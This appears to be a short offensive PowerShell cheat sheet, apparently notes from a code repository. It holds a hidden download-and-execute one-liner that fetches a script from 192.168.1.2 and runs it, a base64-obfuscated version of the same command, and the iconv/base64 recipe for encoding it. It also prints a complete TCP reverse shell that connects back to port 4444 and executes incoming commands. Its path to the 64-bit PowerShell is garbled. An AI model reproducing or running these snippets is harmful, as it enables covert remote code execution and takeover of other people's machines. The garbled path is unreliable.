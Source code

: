 === Powershell

  C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe

Location of 64bit ppowershell

==== Snipplets

  powershell.exe -w hidden -noni -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.2/script.ps1');"

Download a powershell script to memory and run it.

  powershell.exe -w hidden -noni -nop -enc SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xOTIuMTY4LjEuMi9zY3JpcHQucHMxJyk7Cg==

Same as above, but doesn't use either quote type.

  echo | iconv -f utf-8 -t utf-16 -c | sed 's/^\xff\xfe//' | base64 -w 0

Convert powershell to utf-16, strip the first two marker bytes, then convert it to base64 for the -enc command.

  $client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();

Reverse shell

<<<
